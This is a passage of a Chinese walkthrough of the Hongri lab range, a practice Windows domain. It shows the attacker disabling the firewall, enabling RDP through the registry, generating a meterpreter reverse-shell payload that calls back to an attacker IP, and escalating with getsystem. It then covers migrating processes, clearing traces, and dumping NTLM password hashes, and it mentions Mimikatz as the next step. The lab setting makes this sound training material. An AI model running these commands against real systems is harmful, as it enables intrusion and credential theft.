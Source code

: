 ![](https://img.l1uyun.one/红日靶场1-win域_image_22.png)

查看3389端口是否开启,没有启动的话就手动启动一下
```bash
关闭防火墙
netsh advfirewall set allprofiles state off
查看是否开启
netstat -ano | find "3389"
没有开启的话手动开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
```

![](https://img.l1uyun.one/红日靶场1-win域_image_23.png)

成功rdp上去了

![](https://img.l1uyun.one/红日靶场1-win域_image_24.png)

### msf上线
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.71.101 LPORT=10010 -f exe -o shell.exe

msfconsole -q
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set lhost 192.168.71.101
set lport 10010              
exploit
```
这里最开始wsl是镜像网络, 后面改成桥接之后才成功反弹回去
![](https://img.l1uyun.one/红日靶场1-win域_image_25.png)
### getsystem提权
提权,使用meterpreter里面的getsystem一键提权
![](https://img.l1uyun.one/红日靶场1-win域_image_26.png)
### 迁移进程
使用ps查看进程信息,msf的进程pid为5060,apache的为2860,进行进程迁移

![](https://img.l1uyun.one/红日靶场1-win域_image_27.png)

迁移,然后清除痕迹

![](https://img.l1uyun.one/红日靶场1-win域_image_28.png)

### 收集凭据
获取hash
```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
l1uyun:1009:aad3b435b51404eeaad3b435b51404ee:e632033e620c600f68dc60c32b103d8c:::
liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
这里需要进一步使用Mimikatz来提取凭证、密码和其他敏感信息。
